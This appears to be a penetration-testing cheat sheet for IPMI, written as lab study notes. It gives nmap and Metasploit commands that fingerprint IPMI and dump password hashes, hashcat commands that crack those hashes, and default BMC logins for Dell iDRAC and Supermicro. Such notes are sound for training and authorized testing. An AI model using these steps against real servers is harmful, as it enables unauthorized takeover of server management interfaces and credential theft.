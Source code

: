 [Intelligent Platform Management Interface](https://www.thomas-krenn.com/en/wiki/IPMI_Basics) (`IPMI`)

### Footprinting:

`$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local`

### Msfconsole Version Scan:

`msf6 > use auxiliary/scanner/ipmi/ipmi_version `

`msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195`

`msf6 auxiliary(scanner/ipmi/ipmi_version) > show options`

### Msfconsole Dump Hashes:

`msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes `

`msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195`

`msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options`

### Crack the hashes with hascat:

`hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u`

`hashcat -m 7300 /tmp/1 /usr/share/wordlists/rockyou.txt` # or other wordlist

### Common or default logins:

| Product | Username | Password |
| --- |  --- |  --- |
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN | ADMIN |